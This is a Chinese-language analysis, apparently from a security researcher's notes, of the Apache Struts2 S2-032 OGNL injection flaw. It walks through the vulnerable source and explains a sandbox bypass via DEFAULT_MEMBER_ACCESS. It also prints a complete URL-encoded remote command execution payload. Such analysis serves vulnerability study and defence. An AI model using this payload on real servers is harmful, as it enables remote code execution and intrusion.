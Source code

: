 ### S2-032
`DefaultActionMapper`对特殊前缀进行处理，包括`method:`、`action:`、`redirect:`或`redirectAction:`。S2-016中对后三个进行了利用。在跳转时会对参数进行OGNL解析。而S2-032则是利用`method:`。`method:`后的内容会被截取，执行到`DefaultActionInvocation.invokeAction()`
```
protected String invokeAction(Object action, ActionConfig actionConfig) throws Exception {
    String methodName = this.proxy.getMethod(); // 获取method
    methodResult = this.ognlUtil.getValue(methodName + "()", this.getStack().getContext(), action); // methodName是`method:`后的内容，和()拼接
}
```
这个漏洞的payload很有意思，首先`method:`最后结尾有个.toString，它和`()`拼接成`toString`方法调用。实际上就是为了闭合代码中的`()`。另外沙箱的绕过方法很巧妙
```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=open -a Calculator.app
```

沙箱绕过: `#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS`  
S2-029高版本也是用了这个方式。在之前的payload中都是`#_memberAccess["allowStaticMethodAccess"]=true`。主要源于`SecurityMemberAccess.isAccessible()`判断发生了变化
```
public class SecurityMemberAccess extends DefaultMemberAccess {
    private final boolean allowStaticMethodAccess; // 默认为false

    public boolean isAccessible(Map context, Object target, Member member, String propertyName) {
        Class targetClass = target.getClass();
        Class memberClass = member.getDeclaringClass();
        if (Modifier.isStatic(member.getModifiers()) && this.allowStaticMethodAccess) { //  a. 
            if (!this.isClassExcluded(member.getDeclaringClass())) { // 是否在excludedClasses的黑名单中
	        targetClass = member.getDeclaringClass();
	    }
        }
        if (this.isPackageExcluded(targetClass.getPackage(), memberClass.getPackage())) { return false;}
        else if (this.isClassExcluded(targetClass)) { return false; } // b. 常见利用类在这一步都无法通过校验
    }
}
```
可以看到a.处就防御了之前`#_memberAccess["allowStaticMethodAccess"]=true`的payload,因为即使更改了allowStaticMethodAccess属性，依旧无法通过调用类的黑名单  
b.处防御了`#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess')`这种反射的写法，因为反射本身调用的是`java.lang.Class`也在黑名单中。
而payload很巧妙的用了`SecurityMemberAccess`的父类`DefaultMemberAccess`，父类的`isAccessible()`方法中并没有对静态方法和调用类进行限制。也就是让执行流程从`SecurityMemberAccess.isAccessible()`改为执行`DefaultMemberAccess.isAccessible()`直接规避了防御和黑名单，非常巧妙。在利用时，依靠OgnlContext的一行代码
```
public static final MemberAccess DEFAULT_MEMBER_ACCESS = new DefaultMemberAccess(false);
```
通过`#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS`赋值，将`SecurityMemberAccess`替换为`DefaultMemberAccess`
